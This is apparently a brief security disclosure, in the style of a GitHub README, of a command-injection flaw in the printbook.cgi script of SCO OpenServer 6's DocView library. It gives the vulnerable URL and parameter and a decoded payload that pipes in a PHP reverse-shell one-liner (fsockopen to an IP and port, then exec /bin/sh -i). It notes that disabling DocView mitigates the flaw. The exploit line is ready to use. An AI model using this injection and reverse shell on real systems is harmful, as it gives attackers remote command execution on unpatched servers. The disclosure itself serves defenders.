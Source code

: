 

**Responsible Disclosure Was Attempted.**


It was discovered that the printbook functionality within the DocView CGI library was vulnerable to a pipe parameter bypass, allowing an attacked to execute arbitrary system commands.
For some reason this ancient attack technique is still present within some older operating systems.

Tested on SCO OpenServer 6, however the printbook.cgi is still present within newer versions of OpenServer so im'a guess that the issue is still present. OpenServer is a little weird, its a unix based OS but dont expect most of the usual shells/tools to work.

Theres no official patch on fixing this however if you disable the DocView function you should be good.
![RCE Against SCO-OpenServer6](https://i.imgur.com/pzCZS3M.png)

Affected parameter and URL decoded payload:

 - /cgi-bin/printbook?booktitle=216409&toclevels=1&part=%2fen%2fOSR_FEATS%2fCONTENTS.html&outputform=pdf[VULN]
 - || php -r '$sock=fsockopen("10.165.34.103",4242);exec("/bin/sh -i <&3 >&3 2>&3");' &


